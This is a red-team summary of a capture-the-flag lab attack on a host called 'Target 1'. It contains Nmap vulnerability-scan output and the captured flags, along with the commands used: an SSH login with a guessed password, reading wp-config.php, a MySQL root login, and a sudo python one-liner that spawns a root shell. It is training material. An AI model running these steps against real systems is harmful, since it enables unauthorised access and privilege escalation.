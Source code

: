 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV --script=/usr/share/nmap/scripts/vulners.nse 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-06 10:29 PST
Nmap scan report for 192.168.1.110
Host is up (0.0016s latency).
Not shown: 995 closed ports
PORT	STATE SERVICE 	VERSION
22/tcp  open  ssh     	OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| vulners:
|   cpe:/a:openbsd:openssh:6.7p1:
|   	CVE-2015-5600   8.5 	https://vulners.com/cve/CVE-2015-5600
|   	EDB-ID:40888	7.8 	https://vulners.com/exploitdb/EDB-ID:40888  	*EXPLOIT*
|   	EDB-ID:41173	7.2 	https://vulners.com/exploitdb/EDB-ID:41173  	*EXPLOIT*
|   	CVE-2015-6564   6.9 	https://vulners.com/cve/CVE-2015-6564
|   	CVE-2018-15919  5.0 	https://vulners.com/cve/CVE-2018-15919
|   	CVE-2017-15906  5.0 	https://vulners.com/cve/CVE-2017-15906
|   	SSV:90447   	4.6 	https://vulners.com/seebug/SSV:90447	*EXPLOIT*
|   	EDB-ID:45233	4.6 	https://vulners.com/exploitdb/EDB-ID:45233  	*EXPLOIT*
|   	EDB-ID:45210	4.6 	https://vulners.com/exploitdb/EDB-ID:45210  	*EXPLOIT*
|   	EDB-ID:45001	4.6 	https://vulners.com/exploitdb/EDB-ID:45001  	*EXPLOIT*
|   	EDB-ID:45000	4.6 	https://vulners.com/exploitdb/EDB-ID:45000  	*EXPLOIT*
|   	EDB-ID:40963	4.6 	https://vulners.com/exploitdb/EDB-ID:40963  	*EXPLOIT*
|   	EDB-ID:40962	4.6 	https://vulners.com/exploitdb/EDB-ID:40962  	*EXPLOIT*
|   	CVE-2016-0778   4.6 	https://vulners.com/cve/CVE-2016-0778
|   	CVE-2020-14145  4.3 	https://vulners.com/cve/CVE-2020-14145
|   	CVE-2015-5352   4.3 	https://vulners.com/cve/CVE-2015-5352
|   	CVE-2016-0777   4.0 	https://vulners.com/cve/CVE-2016-0777
|_  	CVE-2015-6563   1.9 	https://vulners.com/cve/CVE-2015-6563
80/tcp  open  http    	Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
| vulners:
|   cpe:/a:apache:http_server:2.4.10:
|   	CVE-2017-7679   7.5 	https://vulners.com/cve/CVE-2017-7679
|   	CVE-2017-7668   7.5 	https://vulners.com/cve/CVE-2017-7668
|   	CVE-2017-3169   7.5 	https://vulners.com/cve/CVE-2017-3169
|   	CVE-2017-3167   7.5 	https://vulners.com/cve/CVE-2017-3167
|   	CVE-2018-1312   6.8 	https://vulners.com/cve/CVE-2018-1312
|   	CVE-2017-15715  6.8 	https://vulners.com/cve/CVE-2017-15715
|   	CVE-2017-9788   6.4 	https://vulners.com/cve/CVE-2017-9788
|   	CVE-2019-0217   6.0 	https://vulners.com/cve/CVE-2019-0217
|   	EDB-ID:47689	5.8 	https://vulners.com/exploitdb/EDB-ID:47689  	*EXPLOIT*
|   	CVE-2020-1927   5.8 	https://vulners.com/cve/CVE-2020-1927
|   	CVE-2019-10098  5.8 	https://vulners.com/cve/CVE-2019-10098
|   	1337DAY-ID-33577    	5.8 	https://vulners.com/zdt/1337DAY-ID-33577    	*EXPLOIT*
|   	CVE-2016-5387   5.1 	https://vulners.com/cve/CVE-2016-5387
|   	SSV:96537   	5.0 	https://vulners.com/seebug/SSV:96537	*EXPLOIT*
|   	MSF:AUXILIARY/SCANNER/HTTP/APACHE_OPTIONSBLEED  5.0 	https://vulners.com/metasploit/MSF:AUXILIARY/SCANNER/HTTP/APACHE_OPTIONSBLEED  	*EXPLOIT*
|   	EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7	5.0 	https://vulners.com/exploitpack/EXPLOITPACK:DAED9B9E8D259B28BF72FC7FDC4755A7   	*EXPLOIT*
|   	EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D	5.0 	https://vulners.com/exploitpack/EXPLOITPACK:C8C256BE0BFF5FE1C0405CB0AA9C075D   	*EXPLOIT*
|   	CVE-2020-1934   5.0 	https://vulners.com/cve/CVE-2020-1934
|   	CVE-2019-0220   5.0 	https://vulners.com/cve/CVE-2019-0220
|   	CVE-2018-17199  5.0 	https://vulners.com/cve/CVE-2018-17199
|   	CVE-2018-17189  5.0 	https://vulners.com/cve/CVE-2018-17189
|   	CVE-2018-1303   5.0 	https://vulners.com/cve/CVE-2018-1303
|   	CVE-2017-9798   5.0 	https://vulners.com/cve/CVE-2017-9798
|   	CVE-2017-15710  5.0 	https://vulners.com/cve/CVE-2017-15710
|   	CVE-2016-8743   5.0 	https://vulners.com/cve/CVE-2016-8743
|   	CVE-2016-2161   5.0 	https://vulners.com/cve/CVE-2016-2161
|   	CVE-2016-0736   5.0 	https://vulners.com/cve/CVE-2016-0736
|   	CVE-2015-3183   5.0 	https://vulners.com/cve/CVE-2015-3183
|   	CVE-2015-0228   5.0 	https://vulners.com/cve/CVE-2015-0228
|   	CVE-2014-3583   5.0 	https://vulners.com/cve/CVE-2014-3583
|   	1337DAY-ID-28573    	5.0 	https://vulners.com/zdt/1337DAY-ID-28573    	*EXPLOIT*
|   	1337DAY-ID-26574    	5.0 	https://vulners.com/zdt/1337DAY-ID-26574    	*EXPLOIT*
|   	EDB-ID:47688	4.3 	https://vulners.com/exploitdb/EDB-ID:47688  	*EXPLOIT*
|   	CVE-2020-11985  4.3 	https://vulners.com/cve/CVE-2020-11985
|   	CVE-2019-10092  4.3 	https://vulners.com/cve/CVE-2019-10092
|   	CVE-2018-1302   4.3 	https://vulners.com/cve/CVE-2018-1302
|   	CVE-2018-1301   4.3 	https://vulners.com/cve/CVE-2018-1301
|   	CVE-2016-4975   4.3 	https://vulners.com/cve/CVE-2016-4975
|   	CVE-2015-3185   4.3 	https://vulners.com/cve/CVE-2015-3185
|   	CVE-2014-8109   4.3 	https://vulners.com/cve/CVE-2014-8109
|   	1337DAY-ID-33575    	4.3 	https://vulners.com/zdt/1337DAY-ID-33575    	*EXPLOIT*
|   	CVE-2018-1283   3.5 	https://vulners.com/cve/CVE-2018-1283
|   	CVE-2016-8612   3.3 	https://vulners.com/cve/CVE-2016-8612
|   	PACKETSTORM:140265  	0.0 	https://vulners.com/packetstorm/PACKETSTORM:140265  	*EXPLOIT*
|   	EDB-ID:42745	0.0 	https://vulners.com/exploitdb/EDB-ID:42745  	*EXPLOIT*
|   	EDB-ID:40961	0.0 	https://vulners.com/exploitdb/EDB-ID:40961  	*EXPLOIT*
|   	1337DAY-ID-601  0.0 	https://vulners.com/zdt/1337DAY-ID-601  *EXPLOIT*
|   	1337DAY-ID-2237 0.0 	https://vulners.com/zdt/1337DAY-ID-2237 *EXPLOIT*
|   	1337DAY-ID-1415 0.0 	https://vulners.com/zdt/1337DAY-ID-1415 *EXPLOIT*
|_  	1337DAY-ID-1161 0.0 	https://vulners.com/zdt/1337DAY-ID-1161 *EXPLOIT*
111/tcp open  rpcbind 	2-4 (RPC #100000)
| rpcinfo:
|   program version	port/proto  service
|   100000  2,3,4    	111/tcp   rpcbind
|   100000  2,3,4    	111/udp   rpcbind
|   100000  3,4      	111/tcp6  rpcbind
|   100000  3,4      	111/udp6  rpcbind
|   100024  1      	43056/udp   status
|   100024  1      	47919/tcp6  status
|   100024  1      	49985/udp6  status
|_  100024  1      	55630/tcp   status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.17 seconds

```

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSh
  - Apache
  - rpcbind
  - Samba

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - weak passwords/password reuse
  - outdated wordpress installation

### Exploitation
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - This was in a file, this was found post exploitation, and found after flag2.txt was found
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - SSH Credential Theft
      - ssh michael@192.168.1.110 -p michael
  - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Enumeration
      - cat wp-config.php
      - mysql -u root -p R@v3nSecurity
  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Using Sudo to Escalate Privileges
      - sudo python -c 'import os; os.system("sudo -i")'
